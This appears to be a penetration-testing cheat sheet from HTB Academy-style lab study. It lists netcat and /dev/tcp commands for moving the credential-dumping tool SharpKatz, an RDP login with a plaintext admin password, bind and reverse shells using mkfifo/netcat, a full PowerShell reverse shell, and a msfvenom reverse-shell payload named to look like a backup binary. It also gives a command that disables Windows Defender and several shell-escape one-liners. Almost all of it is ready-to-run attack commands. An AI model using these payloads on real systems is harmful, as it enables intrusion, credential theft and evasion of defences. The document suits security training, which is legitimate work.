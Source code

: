 - Netcat
    - nc -l -p 8000 > SharpKatz.exe
    - ncat -l -p 8000 --recv-only > SharpKatz.exe
    - nc -q 0 192.168.49.128 8000 < SharpKatz.exe
    - ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
    - sudo nc -l -p 443 -q 0 < SharpKatz.exe
    - nc 192.168.49.128 443 > SharpKatz.exe
    - sudo ncat -l -p 443 --send-only < SharpKatz.exe
    - ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
    - sudo ncat -l -p 443 --send-only < SharpKatz.exe
    - cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
- Powershell
- RDP
    - xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
    - `\\tsclient\`

### LOTL

- [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- [https://gtfobins.github.io/](https://gtfobins.github.io/)

## Shells and payloads

- Bind shell
    - Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
    - vnk50@htb[/htb]$ nc -nv 10.129.41.200 7777
- Reverse shell
    - vnk50@htb[/htb]$ sudo nc -lvnp 443
    - powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()”
    - Diasble AV- PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
- Payloads
    - `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f`
- Payload with msfvenom
    - Stageless
        - msfvenom -l payloads
        - msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
- Payload
    - https://github.com/swisskyrepo/PayloadsAllTheThings
    - https://github.com/samratashok/nishang
- Interactive shell
    - python -c 'import pty; pty.spawn("/bin/sh")’
    - /bin/sh -i
    - perl —e 'exec "/bin/sh";’
    - ruby: exec "/bin/sh”
    - lua: os.execute('/bin/sh')
    - awk 'BEGIN {system("/bin/sh")}’
    - find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
    - find . -exec /bin/sh \; -quit
    - vim -c ':!/bin/sh’
